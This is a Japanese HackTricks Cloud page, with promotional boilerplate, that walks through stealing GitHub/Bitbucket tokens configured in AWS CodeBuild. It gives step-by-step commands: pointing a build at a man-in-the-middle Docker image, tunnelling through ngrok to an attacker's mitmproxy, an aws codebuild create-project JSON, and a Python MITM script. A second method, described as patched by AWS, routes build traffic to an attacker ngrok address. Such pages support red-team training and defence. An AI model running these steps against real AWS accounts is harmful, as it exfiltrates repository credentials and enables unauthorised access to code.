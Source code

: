 # AWS Codebuild - トークンリーク

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する。

</details>

## Github/Bitbucketで設定されたトークンの回復

まず、リークする可能性のある設定済みのソースクレデンシャルがあるかどうかを確認します：
```bash
aws codebuild list-source-credentials
```
### Dockerイメージ経由

例えばGithubへの認証がアカウントで設定されていることがわかった場合、特定のDockerイメージを使用してCodebuildでプロジェクトのビルドを実行することにより、そのアクセス（**GHトークンまたはOAuthトークン**）を**抜き取る**ことができます。

この目的のために、新しいCodebuildプロジェクトを**作成する**か、既存のものの**環境**を変更して**Dockerイメージ**を設定することができます。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは非常に基本的なDockerイメージで、**環境変数`https_proxy`**、**`http_proxy`**、および**`SSL_CERT_FILE`**を設定します。これにより、**`https_proxy`**と**`http_proxy`**で指定されたホストのほとんどのトラフィックを傍受し、**`SSL_CERT_FILE`**で指定されたSSL証明書を信頼することができます。

1. **独自のDocker MitMイメージを作成してアップロードする**
* リポジトリの指示に従ってプロキシIPアドレスを設定し、SSL証明書を設定して**dockerイメージをビルド**します。
* メタデータエンドポイントへのリクエストを傍受しないように、**`http_proxy`を設定しないでください**。
* **`ngrok`**を使用して、例えば`ngrok tcp 4444`のようにプロキシをホストに設定することができます。
* Dockerイメージをビルドしたら、**パブリックリポジトリにアップロード**します（Dockerhub、ECR...）。
2. **環境を設定する**
* 新しいCodebuildプロジェクトを**作成する**か、既存のものの環境を**変更**します。
* プロジェクトが**以前に生成されたDockerイメージ**を使用するように設定します。

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

3. **ホストでMitMプロキシを設定する**

* **Githubリポジトリ**で示されているように、次のようなものを使用できます：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
使用された**mitmproxyのバージョンは9.0.1**で、バージョン10ではこの方法が機能しない可能性が報告されています。
{% endhint %}

4. **ビルドを実行し、クレデンシャルをキャプチャする**

*   トークンは**Authorization**ヘッダーで確認できます：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

これはaws cliを使用して以下のように行うこともできます

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTPプロトコル経由~~

{% hint style="success" %}
**この脆弱性はAWSによって2023年2月20日の週のいつか（金曜日だと思います）に修正されました。そのため、攻撃者はこれを悪用できなくなりました :)**
{% endhint %}

攻撃者は、**CodeBuildの権限を昇格させることで、設定されたGithub/Bitbucketトークンを漏洩させる**ことができます。また、OAuthを介して権限が設定されている場合は、**コードにアクセスするために使用される一時的なOAuthトークンを漏洩させる**ことができます。

* 攻撃者は、環境変数**http\_proxy**と**https\_proxy**をCodeBuildプロジェクトに追加し、自分のマシンを指すように設定することができます（例：`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 次に、githubリポジトリのURLをHTTPSではなくHTTPを使用するように変更します。例えば：**http://**github.com/carlospolop-forks/TestActions
* そして、プロキシ変数（http\_proxyとhttps\_proxy）で指定されたポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)からの基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトのビルド**をクリックすると、**認証情報**がクリアテキスト（base64）でmitmポートに**送信されます**：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
これで攻撃者は、自分のマシンからトークンを使用し、その権限をすべてリストし、CodeBuildサービスを直接使用するよりも簡単に（悪用）利用できるようになります。
{% endhint %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックしてください。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加するか**、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローしてください**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有してください**。

</details>
